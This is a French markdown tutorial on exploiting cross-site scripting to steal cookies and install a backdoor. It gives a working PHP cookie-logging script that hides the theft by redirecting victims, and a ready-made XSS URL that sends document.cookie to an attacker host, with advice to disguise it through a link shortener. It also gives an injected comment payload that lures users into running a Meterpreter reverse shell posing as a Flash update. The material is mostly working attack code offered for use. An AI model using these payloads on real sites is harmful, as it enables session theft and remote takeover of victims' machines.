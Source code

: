 ### Mise en place complet d'un vol de cookie
Pour le vol de cookie, il faut mettre en place un script capable de récupérer le cookie. Un code PHP très simple qui va enregistré le cookie dans un fichier texte:

    // get.php
    <?php
        $cookie = $_GET['v'] . "\n";
        file_put_contents("cookies.txt", $cookie, FILE_APPEND | LOCK_EX);
    ?>

Pour aller plus loin, on peut également prévoir de rediriger l'utilisateur en fin de script pour qu'il ne se doute de rien:

    <?php 
        if(isset($_GET['c']) && is_string($_GET['c']) && !empty($_GET['c'])) {
 
            $referer = $_SERVER['HTTP_REFERER'];
            $date = date('d-m-Y \à H\hi');
            $data = "From :   $referer\r\nDate :   $date\r\nCookie : ".htmlentities($_GET['c'])."\r\n------------------------------\r\n";
    
            $handle = fopen('cookies.txt','a');
            fwrite($handle, $data);
            fclose($handle);   
    }
    ?>
    <script language="javascript" type="text/javascript">
	    window.location.replace("http://www.diversion.com");
    </script>

### Tout mettre dans une URL
Il est également possible de mettre le vol de cookie dans une URL sur laquelle l'utilisateur n'aura plus qu'à cliquer:

        http://victime.com/vulnerable.php?variable=%3Cscript%3Ewindow.location.replace(%22http://attaquant.com/get.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E

Pour être plus discret, l'URL peut être raccourcie via tinyurl en bit.ly.


### Installation d'une backdoor
Dans le cas d'un site de gallerie d'images vulnérable à XSS sur lequel on pourrait uploader nos images et les commenter:

* Avec le SET (social engineering tool) on créé un windows reverser meterpreter que l'on va faire passer pour une mise à jour flash
* On rend l'exe disponible sur une URL par exemple `http://192.168.1.104/update_flash.exe`
* on charge une image sur le site vulnérable ressemblant à une image d'erreur type "plugin manquant"
* on va charger dans le commentaire, qui représente la faille:
`padding: 10px;' /><br /><br /><a href='http://192.168.1.104/flash_update.exe'><img src='http://192.168.1.104/flash.png' /></a><p alt='`

Quand la victime va cliquer elle va connecter un meterpreter à la machine de l'attaquant.

